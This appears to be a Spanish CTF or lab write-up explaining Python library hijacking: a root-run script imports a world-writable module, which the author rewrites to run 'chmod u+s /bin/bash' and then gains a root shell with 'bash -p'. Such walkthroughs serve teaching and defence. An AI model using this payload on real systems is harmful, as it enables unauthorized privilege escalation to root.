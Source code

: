 Si lo ejecutamos lo unico que hace es imprimir **Hello**:

```bash
jaba@jabita:~$ python3 /usr/bin/clean.py
Hello
```

Si miramos su contenido podemos ver que importa una libreria que se llama **wild**

```python
import wild

wild.first()
```

Para obtener mas informacion, podemos usar el comando **find / -type f -name "wild.py" 2>/dev/null** para saber cual es la ruta del archivo **wild.py**:

```bash
/usr/lib/python3.10/wild.py
```

Si vemos su contenido, lo unico que esta haciendo es definir una funcion llamada **first**, la cual cuando sea llamada ejecutara un **print** que muestre el **Hello**

```python
def first():
	print("Hello")
```

### Python Library Hijacking (RW permissions)

Un escenario de python library hijacking, es que se este importando una libreria la cual tiene permisos de escritura, asi que nosotros podemos modificar su contenido para que relice una accion arbitraria

Si mostramos los permisos de la libreria **wild**, podemos ver que para otros usuarios tiene permisos **rw** (lectura y escritura)

```ruby
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```

En mi caso modificare el archivo para darle permisos SUID a bash, no es necesario hacerlo asi, de hecho simplemente se puede indicarle que ejecute bash (pero ya es comtumbre mia jsjs):

```python
import os
def first():
	os.system("chmod u+s /bin/bash")
```

Ahora solo damos **bash -p** y ya somos root

```bash
jaba@jabita:~$ bash -p
bash-5.1# whoami
root
```
